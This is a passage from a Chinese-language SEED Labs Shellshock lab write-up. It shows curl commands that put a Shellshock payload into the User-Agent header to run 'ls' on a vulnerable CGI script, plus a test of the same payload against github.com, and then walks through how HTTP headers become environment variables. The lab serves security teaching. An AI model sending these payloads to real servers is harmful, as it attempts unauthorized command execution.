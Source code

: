 我们精心构造一个段攻击指令，用于ls输出文件夹下文件。

```bash
curl -A "() { :;}; echo ; /bin/ls -l" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

果然攻击成功。

![image-20220614204220735](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220111401-1311486361.png)

我们攻击其它网址，显然是不会成功的

```bash
curl -A "() { :;}; echo ; /bin/ls -l" https://github.com/
```

![image-20220614204937856](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220111615-1520721734.png)



## 任务2：通过环境变量传递数据

为了利用基于bash的CGI程序中的冲击漏洞，攻击者需要将他们的数据传递给脆弱的bash程序，数据需要通过环境变量传递。在这项任务中，我们需要看看如何才能实现这一目标。我们在服务器上提供了另一个CGI程序(getenv.cgi)，以帮助您确定哪些用户数据可以进入CGI程序的环境变量。这个CGI程序  打印出了它所有的环境变量。

```bash
#!/bin/bash_shellshock
echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```



### 任务2.A：使用浏览器。

 在上面的代码中，第A行将打印出当前过程中所有环境变量的内容。通常， 如果您使用浏览器访问CGI程序，您会看到类似的内容。请确定浏览器设置的环境变量值。您可以在浏览器上打开HTTP报头Live扩展，以捕获HTTP请求，并将该请求与服务器打印出的环境变量进行比较。请在实验室报告中包括您的调查结果。

```bash
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) ...
HTTP_ACCEPT=text/html,application/xhtml+xml,application/xml;q=0.9, ...
HTTP_ACCEPT_LANGUAGE=en-US,en;q=0.5
HTTP_ACCEPT_ENCODING=gzip, deflate
...
```

![image-20220614214419554](https://img2022.cnblogs.com/blog/2661728/202206/2661728-20220623220113260-735110358.png)

经过比对发现HTTP 请求的HOST、USER_AGENT、ACCEPT等信息均为环境变量。

### 任务2.A: 使用curl

如果我们想将环境变量数据设置为任意值，我们将不得不修改浏览器的行为， 这将是太复杂了。幸运的是，有一个名为curl的命令行工具，它允许用户控制HTTP请求中的大多数字段。这里有一些有用的选项：
